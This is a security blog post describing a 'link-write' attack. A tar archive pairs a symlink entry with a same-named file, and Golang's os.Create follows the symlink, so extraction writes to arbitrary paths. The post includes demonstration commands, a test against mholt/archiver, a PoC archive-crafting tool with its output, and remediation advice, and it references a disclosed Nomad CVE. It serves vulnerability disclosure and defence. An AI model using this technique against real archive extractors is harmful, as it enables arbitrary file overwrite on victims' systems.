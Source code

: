 ```yaml
---
title: "Link-Write Attack: A sweet combination"
draft: false
date: 2024-08-11T12:20:36+02:00
tags:
- attack
- tar
- golang
- python
---
```


I've recently been working on some exciting development projects, including a deep dive into archive extraction. During this work, I discovered some fascinating behaviours that I'm thrilled to share with you in the following sections.

<!--more--> 

_**TL;DR:**_ Tar archives can contain multiple entries with the same filename. It is important to note that Golang follows symlinks while calling [`os.Create(name string) (*File, error)`](https://pkg.go.dev/os#Create). This combination can lead to arbitrary writes during file extraction.

## Observations

### Repeating name in tar files

First of all, an archive can contain multiple entries with the same name. Lets take for example the tar file `alice.tar` (created with [ref](https://go.dev/play/p/7TjHUzQLuL8)). The file contains two entries:

```shell
$ tar ztvf alice.tar
lrw-------  0 0      0           0  1 Jan  1970 rabbit_hole -> /tmp/wonderland
-rw-r--r--  0 0      0          39  1 Jan  1970 rabbit_hole

```

The first entry is a symlink, the second is a legit text file. If this archive is extracted with the `tar` cli, the symlink  is extracted and afterwards replaced by the text file:

```shell
$ tar xvf alice.tar
x rabbit_hole
x rabbit_hole

$ ls -l
total 24
-rw-r--r--  1 jan  staff   2,5K  9 Aug 17:33 alice.tar
-rw-r--r--  1 jan  staff    39B  1 Jan  1970 rabbit_hole

$ file rabbit_hole
rabbit_hole: ASCII text, with no line terminators
```

Let's keep that behavior for now in mind and let us step to the next interesting observation.

### File creation in Golang

Files can be created in Golang with [os.Create(name string) (*File, error)](https://pkg.go.dev/os#Create). Data can then be written to the file and it can be closed. [The documentation says](https://pkg.go.dev/os#Create:~:text=Create%20creates%20or%20truncates%20the%20named%20file.%20If%20the%20file%20already%20exists%2C%20it%20is%20truncated.%20If%20the%20file%20does%20not%20exist%2C%20it%20is%20created%20with%20mode%200666%20(before%20umask).):

> Create creates or truncates the named file. If the file already exists, it is truncated. If the file does not exist, it is created with mode 0666 (before umask).

The interesting thing about this function is that the given `name` can be an existing file (or even better: a symlink!). My first expectation was that the symlink would be replaced/truncated and replaced with the contents of the file - similar to `tar`cli behaviour.

I implemented such behaviour in [Golang](https://go.dev/play/p/kunYCVn-_Zp) and in [Python](https://www.online-python.com/WAhSH75ia2) and it turned out that if we pass a symlink to the create function, the symlink is traversed and the content is written to the target!

Funny, right? 😃

## Verification of assumption

To verify my assumption, I picked a wide-spread existing OSS extraction implementation for archives in Golang – [mholt/archiver@v3](https://github.com/mholt/archiver/tree/v3-deprecated) – which is straightforward to use ([full code example](https://go.dev/play/p/NPqSWEOWphV)):  

```golang
// parse command line arguments
input := os.Args[1]
output := os.Args[2]

// unarchive the file
archiver.Unarchive(input, output)

// print the result
fmt.Printf("Unarchived %s to %s\n", input, output)
```

If we use this simple code snipped to extract our previous crafted archive, we get following result:

```
$ go run ./main.go alice.tar .
Unarchived alice.tar to .

$ ls -l
total 24
[...]
-rw-r--r--  1 jan  staff   299B  9 Aug 18:31 main.go
lrwxr-xr-x  1 jan  staff    15B  9 Aug 18:38 rabbit_hole@ -> /tmp/wonderland

$ cat /tmp/wonderland
Hello Alice, welcome to the wonderland!

```

So, we are capable of archiving an arbitrary write to the filesystem, by traversing the link during the file creation process.

I was as well capable of exploiting this behaviour in hashicorp/nomad, which got remediated in [nomad#23738](https://github.com/hashicorp/nomad/pull/23738) and disclosed in [HCSEC-2024-17](https://discuss.hashicorp.com/t/hcsec-2024-17-nomad-vulnerable-to-allocation-directory-escape-on-non-existing-file-paths-through-archive-unpacking/69293) ([CVE-2024-7625](https://nvd.nist.gov/vuln/detail/CVE-2024-7625))

## PoC tool: golinkwrite

If you want to create a potential malicious archive, feel free to use [NodyHub/golinkwrite](https://github.com/NodyHub/golinkwrite) to craft your own tar archives with double entries: 

```shell
$ echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

$ golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Verbose:true}"
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input size" size=20
time=2024-08-09T19:11:35.266+02:00 level=INFO msg="tar file created" output=alice.tar

$ tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

## Remediation

The root-cause of this behaviour is that symlinks are traversed during extraction. You can either implement your own checks or use Google's implementation: [google/safearchive](https://github.com/google/safearchive) to ensure that symlinks from an archive are not traversed during extraction. More details can be found in the blog post [The Family of Safe Golang Libraries is Growing!](https://bughunters.google.com/blog/4925068200771584/the-family-of-safe-golang-libraries-is-growing).